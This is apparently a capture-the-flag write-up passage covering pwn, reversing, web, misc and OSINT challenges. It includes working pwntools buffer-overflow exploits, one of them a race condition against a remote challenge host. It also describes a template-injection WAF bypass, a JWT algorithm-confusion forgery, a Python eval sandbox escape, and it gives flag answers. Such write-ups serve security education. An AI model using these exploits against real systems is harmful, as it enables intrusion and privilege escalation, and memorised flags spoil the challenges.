void dev_mode(int key)
{
    if (key != 0x1337c0de)
    {
        puts("[DEV] Invalid key.");
        exit(1);
    }

    puts("[DEV] Access granted.");
    system("cat flag.txt");
}

```
This confirms it ,the file name input uses gets() to take input, which is vulnerable to stack buffer overflow.
Read the Bugs section of Linux Manual Page to get to know more about the bug.
- Due to this we could overwrite the return address of load_asset to point to an address of our choice in the code.
- From here, we got two  options
    - return to the beginning of dev_mode with rdi set to `0x1337c0de`.
    - return directly after the check of `key`.
- Now use GDB or look at the disassembled code to find the `OFFSET` to saved RIP on the stack.


#### Final exploit

```
#!/usr/bin/env python3
from pwn import *

context.binary = './chall'
context.terminal = ["tmux","splitw",'-v']
elf = context.binary

p = process('./chall')
# p = remote("35.193.78.91", 30003)


# pwndbg> disass dev_mode 
# Dump of assembler code for function dev_mode:
#    0x0000000000001297 <+0>:	push   rbp <-- OPTION 1: BREAK HERE AFTER SETTING RDI TO 0X1337C0DE
#    0x0000000000001298 <+1>:	mov    rbp,rsp
#    0x000000000000129b <+4>:	sub    rsp,0x10
#    0x000000000000129f <+8>:	mov    DWORD PTR [rbp-0x4],edi
#    0x00000000000012a2 <+11>:	cmp    DWORD PTR [rbp-0x4],0x1337c0de
#    0x00000000000012a9 <+18>:	je     0x12c4 <dev_mode+45>
#    0x00000000000012ab <+20>:	lea    rax,[rip+0xd60]        # 0x2012
#    0x00000000000012b2 <+27>:	mov    rdi,rax
#    0x00000000000012b5 <+30>:	call   0x1040 <puts@plt>
#    0x00000000000012ba <+35>:	mov    edi,0x1
#    0x00000000000012bf <+40>:	call   0x1120 <exit@plt>
#    0x00000000000012c4 <+45>:	lea    rax,[rip+0xd5a]        # 0x2025  <--- (OPTION 2) BREAK HERE AFTER THE CHECK
#    0x00000000000012cb <+52>:	mov    rdi,rax
#    0x00000000000012ce <+55>:	call   0x1040 <puts@plt>
#    0x00000000000012d3 <+60>:	lea    rax,[rip+0xd61]        # 0x203b
#    0x00000000000012da <+67>:	mov    rdi,rax
#    0x00000000000012dd <+70>:	call   0x1080 <system@plt>
#    0x00000000000012e2 <+75>:	nop
#    0x00000000000012e3 <+76>:	leave
#    0x00000000000012e4 <+77>:	ret
# End of assembler dump.

p.recvuntil(b"[DEBUG] menu @ ")
leak = int(p.recvline().strip(), 16)
pie_base = leak - elf.symbols['menu']
log.info(f"PIE base: {hex(pie_base)}")

p.sendlineafter(b"> ", b"2")  # load_asset

offset = 88

payload = flat(
    b"A" * offset,
    pie_base + 0x12c4
)

p.sendlineafter(b"asset> ", payload)
p.interactive()

```


### Secure Message - 428 points
Analyse the binary and decompile the functions similarly


```
int __fastcall handle_client(unsigned int a1)
{
  int buf; // [rsp+1Ch] [rbp-44h] BYREF
  char s[64]; // [rsp+20h] [rbp-40h] BYREF

  alarm(0x1Eu);
  g_client_fd = a1;
  snprintf(s, 0x40u, "[*] g_msg_len lives at %p — not that it matters.\n", (const void *)g_msg_len);
  buf = 0;
  ...
  read(a1, &buf, 3u);
  if ( (char)buf == '1' )
  {
    submit_message(a1);
  }
  else
  {
    ...
  }
  return close(a1);
}


__int64 __fastcall submit_message(int a1)
{
  _BYTE buf[76]; // [rsp+10h] [rbp-50h] BYREF
  int v3; // [rsp+5Ch] [rbp-4h]
  ...
  v3 = recv_int((unsigned int)a1);
  *(_QWORD *)g_msg_len = v3;
  if ( v3 > 0 && v3 <= 64 )
  {
    ...
    usleep(0x4C4B40u);
    ...
    read(a1, buf, *(_QWORD *)g_msg_len);
    ...
    return send_line((unsigned int)a1, &unk_4020CB);
  }
  else
  {
    ...
    return send_line((unsigned int)a1, &unk_4020CB);
  }
}
```
The binary opens port for socket for connection.After Connection, it asks the size (max 64) and takes the input of that size.

The control flow of program goes.
1. User connects through socket and sends 1.
2. asks for input from user and stores it in local variable.
3. set the global variable g_msg_len to the input.
4. checks the bounds of input and breaks if not.
5. sleeps for 3 sec.
6. reads into local variable the length stored in global variable . ( read(a1m,buf,g_msg_len) )

The bug is not visible normally at first and is not vulnerable over a single connection. 
But look into the `mmap` call in the main function. This makes the `g_msg_len` shared across processes. Each connection to the binary makes a fork() call which makes a new process with shared `g_msg_len`.
So suppose if another connection happens during the 3 sec sleep phase -> sends a large size -> overwrites the g_msg_len and breaks,
then when the main connection get out of sleep, the `g_msg_len` is corrupted to a large value, leading to buffer overflow.
Further look into the binary to find a `win` function. Jump to it by setting rip to that function address and get the flag.

#### Final exploit
```
from pwn import *

HOST = "35.193.78.91"
PORT = 30006

WIN = 0x401286 

# Stack layout inside submit_message():
#   [rbp-0x40]  buf[64]   ← read() lands here
#   [rbp+0x00]  saved rbp
#   [rbp+0x08]  return address  ← target

PADDING = 88 
t1 = remote(HOST, PORT) // Main connection
t2 = remote(HOST, PORT) // Side connection

t1.sendline(b"1")
t2.sendline(b"1")

// Send a valid size to connection 1, then while connection 1 is sleeping,
// send a corrupted size to connection 2. Connection 2 will break but not before
// corrupting the g_msg_len.
t1.sendline(b"64") 
sleep(0.5)
t2.sendline(b"999")

// The g_msglen is 999 now, and we send our payload.
t1.recvuntil(b"Alright, send your message (we trust you completely):")
t1.sendline(b"A"*PADDING + p64(WIN))
t1.interactive()
```


## Reversing
### my-machine - 500 points

Only file received is a rust binary. Normal analysis of binary and understanding it could be time consuming.
Rather that with the hint given, you can look into the strace while execution of the binary.
- Notice the binary creates two files in `/tmp` from the strace.
```
mkdir("/tmp/.tmph1EJcx", 0777)          = 0
openat(AT_FDCWD, "/tmp/.tmph1EJcx/vm", O_WRONLY|O_CREAT|O_TRUNC|O_CLOEXEC, 0666) = 3
write(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\35\0\0\0\0\0\0"..., 20912) = 20912
close(3)                                = 0
openat(AT_FDCWD, "/tmp/.tmph1EJcx/object_file.obj", O_WRONLY|O_CREAT|O_TRUNC|O_CLOEXEC, 0666) = 3
write(3, "0\0.\2\301\300\16\1@\34 @\360\" ?\360\" >\360\" =\360\" <\360\" ;"..., 8252) = 8252
close(3)                                = 0
chmod("/tmp/.tmph1EJcx/vm", 0755)       = 0
```
- Extract out those files. One is a binary file named `vm` and another `object_file`
- Analyse the `vm` to deduce that its a `lc3` simulater and objectfile is compiled `lc3`.
- Find a lc3 disassembler online ( for ex. disco) , to disassembler and analyse the object file.
- Observe that there exists a RET instructions right at the start of disassembly.
```
.ORIG x3000
LD R7, x2
RET <-- THIS INSTRUCTIONS BREAKS THE EXECUTION RIGHT AT THE BEGINNING
BRnzp x1
JSRR R0
LD R0, x40
PUTS
LD R0, x3F
PUTS
LD R0, x3E
PUTS
...
```
- Remove that RET instruction and assemble it back ( can use disco for that).
- Now run the `vm` passing it with the new assembled `object_file`.
```
$ ./vm object_file_patched
######  ####### #######   ### ######  #     # ####### #######  #####  ####### 
#     #    #    #        #    #     #  #   #     #    #       #     # #     # 
#          #    #        #    #     #   # #      #    #       #       #     # 
#          #    #####   ##    ######     #       #    #####   #       #     # 
#          #    #        #    #     #    #       #    #       #       #     # 
#     #    #    #        #    #     #    #       #    #       #     # #     # 
######     #    #         ### ######     #       #    #######  #####  ####### 
                                                                             
######  #######         ###  #####          #     #    #    ######  ######  
#     # #                #  #     #         #     #   # #   #     # #     # 
#     # #                #  #               #     #  #   #  #     # #     # 
#     # #####            #   #####          ####### #     # ######  #     # 
#     # #                #        #         #     # ####### #   #   #     # 
#     # #                #  #     #         #     # #     # #    #  #     # 
######  #######         ###  #####          #     # #     # #     # ######  
               #######             #######                                 
        ####### #######         ######  ####### #     # ####### ######  
           #    #     #         #     # #       #     # #       #     # 
           #    #     #         #     # #       #     # #       #     # 
           #    #     #         ######  #####   #     # #####   ######  
           #    #     #         #   #   #        #   #  #       #   #   
           #    #     #         #    #  #         # #   #       #    #  
           #    #######         #     # #######    #    ####### #     # 
#######                 #######                                         
 #####  ####### ###   
#     # #          #  
#       #          #  
 #####  #####      ## 
      # #          #  
#     # #          #  
 #####  ####### ###   
                     
HALT
```
## Web
### TemplateForge: Essentials - 280 points

We were given a flask app which renders user supplied jinja2 templates. The web application firewall (WAF) blocked characters including `_`, `[`, `]` and keywords like `os`, `system`, `Popen`. Players were supposed to bypass everything using `|attr()` with `\x5f` hex escapes.


### KeyVault: 460 points
This challenge was based on JWT confusion attack. 

In this challenge, we were given signup and a login page. The main goal was to forge the token given by the server and escalate privileges to admin by forging the JWT token.

The server signs JWTs with RS256 but its custom `verifyToken()` also accepts HS256, using the RSA public key as the HMAC secret. Since the public key was freely downloadable from `/.well-known/jwks.json`, we were able to forge an admin token.


## Miscellaneous
### Damn whatt - 50 points
A challenge implementing general thinking and carefull observation. The image has letters squeezed down along the width and elongated along the height. Some letters became visible if the screen was tilted. Then use tools such as `gimp` to stretch the image along the width and find the flag.

`flag:sharn{perspective_matters_right_easy_peasy}`
### Sandcastle - 136 points

A TCP service port was giving which accepted Python expressions via `eval()`

The builtins were restricted but there was no restrcition on attribute access. 
The WAF only checks for literal keyword matches. It doesn't block souble underscore access through the MRO chain. Since `eval()` still allows attribute traversal, we can walk from any literal object up to `object.__subclasses__()` and find a class with file-read capability.

### Curiosity killed the Cat - 338 points
I initiallt wanted to name this `Curiosity sliced the cat` but then it would have become too obvious. 
We were given `Nothing to see here.` and a .gcode file.
.gcode files are used for 3D printing *geometric* code. 
Here, the easiest path probably would have been to open it in a Slicing software, I used Cura Ultimaker, and then viewing through the layers to get the flag.



`sharn{sliced_T0T}`

## OSINT
### Park & Ponder - 428 points
Searching for helicopter incidents in parks leads you to the 2007 midair collision of 2 helicopters over "Steele Indian School Park" in Phoenix,which was built over an old school site. If you open google maps and  closeby for a place honoring soldiers, you will spot the" Carl T. Hayden VA Medical Center". From there, you just need to grab the dates of his political career. He was first elected in 1911, served 15 years in the House, and spent 42 years in the Senate. Calculating 1911+15-42 gives you 1884, giving you the final flag of sharn{1884}.

